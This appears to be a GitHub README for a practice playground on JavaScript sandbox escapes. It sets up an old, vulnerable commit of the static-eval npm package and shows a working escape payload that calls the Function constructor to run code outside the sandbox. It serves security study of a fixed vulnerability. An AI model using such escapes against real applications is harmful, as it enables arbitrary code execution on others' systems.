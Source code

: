# JS Sandbox Escape - Playground

This Playground is based on different JS Sandbox technique an it useful to improve Sandbox escaping technique


## static-eval 
- Project 
    - [static-eval](https://www.npmjs.com/package/static-eval) cloned from following commit 
        ```
        git clone git@github.com:browserify/static-eval.git
        git checkout c0e719f6b689b5c0f9fc84125741509891ac10ca
        ```
        Following vulnerability was fixed as described on [static-eval PR-18](https://github.com/browserify/static-eval/pull/18)
- Reference
    -   [maustin.net - Unsafe Code Execution in static-eval(]https://maustin.net/articles/2017-10/static_eval?source=post_page---------------------------)

### Build
```
npm install
```

### Test Case 
```
$ cat eval.js 
var evaluate = require('../index.js');
var parse = require('esprima').parse;

var src = process.argv.slice(2).join(' ');
var ast = parse(src).body[0].expression;

console.log(evaluate(ast));
```

### Normal Sandboxed Execution
- math
```
node eval.js '1+1'
2

```
- console.log
```
node eval.js 'console.log(1)'
undefined
```


### Sandbox Escape Exploit Example
- console.log

```
node eval.js '(function () {}).constructor("console.log(1)")()'
1
```